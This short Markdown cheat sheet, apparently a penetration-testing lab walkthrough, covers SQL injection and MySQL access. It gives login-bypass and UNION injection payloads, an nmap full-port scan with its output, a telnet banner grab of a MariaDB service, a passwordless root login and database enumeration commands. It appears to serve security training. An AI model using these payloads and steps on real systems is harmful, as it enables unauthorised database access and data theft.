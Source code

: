 ## SQL Injection

https://portswigger.net/web-security/sql-injection

If there is a input field in a web page, you can try to inject SQL commands to the database.

```sql
' OR 1=1 --
```

```sql
' UNION SELECT 1,2,3 --
```

## Detect MySQL Port and Version

```bash
nmap -p- <IP> -oA fullport --min-rate=10000
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-10 19:48 -03                      
Nmap scan report for 10.129.95.232 (10.129.95.232)                                   
Host is up (0.20s latency).                                                          
Not shown: 65534 closed ports                                                        
PORT     STATE SERVICE
3306/tcp open  mysql 
```

```bash
user in ~ λ telnet 10.129.95.232 3306                                            
Trying 10.129.95.232...                                                              
Connected to 10.129.95.232.
Escape character is '^]'.
5.5.5-10.3.27-MariaDB-0+deb10u13"f^#3toS-19h"n
```

## Connect with weak credentials

```bash
mysql -h <IP> -u root
```

## Commannds

```sql
SHOW DATABASES;
use <DATABASE>;
SHOW TABLES;
```